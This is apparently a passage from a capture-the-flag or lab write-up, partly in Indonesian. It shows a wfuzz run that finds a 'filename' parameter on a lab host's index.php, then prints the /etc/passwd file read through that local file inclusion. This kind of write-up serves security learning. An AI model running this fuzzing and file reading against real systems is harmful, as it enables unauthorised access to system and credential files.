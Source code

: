 </div>

# Wfuzz
```bash
┌──[root@skofos]──[~/Desktop/vh/infovore]                                                                                                                                               
└──# wfuzz -u 'http://192.168.59.129/index.php?FUZZ=/etc/passwd/' -w /root/Desktop/tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hw 382                               
                                                                                                                                                                                        
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.                               
                                                                                                                                                                                        
********************************************************                                                                                                                                
* Wfuzz 2.4.5 - The Web Fuzzer                         *                                                                                                                                
********************************************************                                                                                                                                
                                                                                                                                                                                        
Target: http://192.168.59.129/index.php?FUZZ=/etc/passwd/                                                                                                                               
Total requests: 2588                                                                                                                                                                    
                                                                                                                                                                                        
===================================================================                                                                                                                     
ID           Response   Lines    Word     Chars       Payload                                                                                                                           
===================================================================                                                                                                                     
                                                                                                                                                                                        
000000072:   200        7 L      9 W      80 Ch       "filename"                                                                                                             

Total time: 10.46127                                                                                                                                                                    
Processed Requests: 2588                                                                                                                                                                
Filtered Requests: 2587                                                                                                                                                                 
Requests/sec.: 247.3886
```
yep, interesting. lalu saya coba. and boom.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```